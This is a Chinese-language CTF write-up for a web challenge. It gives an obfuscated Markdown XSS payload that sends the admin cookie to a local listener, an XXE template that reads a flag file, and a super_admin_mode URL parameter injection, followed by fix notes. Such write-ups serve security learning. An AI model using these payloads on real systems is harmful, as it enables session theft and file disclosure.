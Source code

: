 # xxxxx

## 解题过程

### 1、注册账号进入用户界面

![主界面](主界面.png)

### 2、进入工单记录，提交 Markdown XSS

```markdown
![dsa](x"onerror=eval(atob('Yj1kb2N1bWVudC5jb29raWU7YT0iPGltZyBzcmM9aHR0cDovL2xvY2FsaG9zdDo4MjM0LyIrYnRvYShiKSsiPiI7ZG9jdW1lbnQud3JpdGUoYSk7'))%")
```

该 payload 是弹到本地8234端口

### 3、在本地监听8234端口，得到管理员cookie

![cookie](cookie.png)

### 4、利用得到的管理员cookie登陆管理员界面，进入短信设置

![短信](短信.png)

### 5、打开请求手机验证，修改模板为

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [ <!ENTITY xxe SYSTEM "file:///tmp/flag" >
]>
<root>
    <tel>{tel}</tel>
    <text>【VYG乐购】您的验证码为： {code} &xxe;</text>
</root>
```

### 6、触发发送短信操作，进入管理员后台查看发送记录

![](result.png)




修复点：

- `Ticket.py里TicketCreateHandler.post`，使用更强的过滤（如先md再bleach），不能直接禁用Markdown
- 修复SMS服务器上的XXE注入，关闭实体解析，不能直接删除发短信功能
- （这个漏洞应该都会修…………）



## 解法2 - Python修饰器参数注入

（专门为fixit环节设计）

访问 `http://127.0.0.1:8233/user/2?super_admin_mode=1` 可得管理员flag

![flag2](flag2.png)

原理：

出问题的函数集中在`view/tools.py`，这里存放了常用的辅助函数。当不同修饰器连接时，验证规则不健壮造成对模板逻辑的注入。

template_kwargs_importer用于合并参数字典
![](tools_1.png)

![](tools_2.png)

import_args用于直接将表单导入到函数参数表，方便保存后显示表单保存好的数据，提高用户和编码体验（因为数据已经在命名空间中，直接传给模板引擎即可，不需要再重复写参数列表），例如：

![](import_args.png)

RequestHandler.render被修改，用于向模板系统引入常用变量（比如渲染顶栏菜单时，区分管理员模式）
![](render.png)

render里面`**template_kwargs_importer(modes,kwargs)` 由于合并次序问题，当kwargs有super_admin_mode或customer_service_mode时，会将真正的值覆盖掉，而敏感信息显示与否是交予模板控制的，当以后门的方式加入上述参数，便可以对应权限查看用户敏感信息，造成隐私泄露。



灵感来源： https://blog.csdn.net/cc7756789w/article/details/46635383

修复事项：

- 不能屏蔽userinfo（本来是想由于显示和用户信息界面的，没时间写……）
- 不能修改自带Flag的用户信息（用户隐私都泄露了还不算漏洞么……）